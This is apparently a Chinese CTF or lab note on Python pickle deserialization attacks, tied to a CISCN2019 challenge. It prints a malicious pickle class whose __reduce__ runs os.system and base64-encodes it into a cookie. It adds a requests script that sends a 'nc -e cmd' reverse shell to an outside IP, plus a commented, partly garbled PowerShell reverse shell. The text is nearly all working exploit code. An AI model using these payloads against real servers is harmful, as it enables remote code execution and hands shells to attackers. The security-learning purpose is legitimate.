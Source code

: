 ```plain


class A(object):
    def __reduce__(self):
        return (os.system,('calc.exe',))

a=A()
p_a = pickle.dumps(a)
p_a = base64.b64encode(p_a)
print (p_a)
输出结果：gASVIAAAAAAAAACMAm50lIwGc3lzdGVtlJOUjAhjYWxjLmV4ZZSFlFKULg==

将输出的值用cookie去发送：Cookie:user=gASVIAAAAAAAAACMAm50lIwGc3lzdGVtlJOUjAhjYWxjLmV4ZZSFlFKULg==
```

![1647937317508-0924bfbc-49c4-45c8-be69-5f014e3cebe3.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913132841234-94082132.png)

```plain
发送，进行了弹窗。同样也可以命令执行

也可以用存脚本进行测试，在

import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        #s = """powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.46.137",6666); = .GetStream();[byte[]] = 0..65535|%{0};while(( = .Read(, 0, .Length)) -ne 0){; = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(,0, ); = (iex  2>&1 | Out-String );  =  + "PS " + (pwd).Path + "> "; = ([text.encoding]::ASCII).GetBytes();.Write(,0,.Length);.Flush()};.Close()"""
        s='G:/cmd/nc&lcx&curl/nc -e cmd 47.100.168.248 1111'
        return (os.system, (s,))


e = exp()
s = pickle.dumps(e)
print(s)

response = requests.get("http://192.168.124.86:5000/", cookies=dict(
    user=base64.b64encode(s).decode()
))
print(response.content)
```

- CTF-CISCN2019华北-JWT&反序列化

------
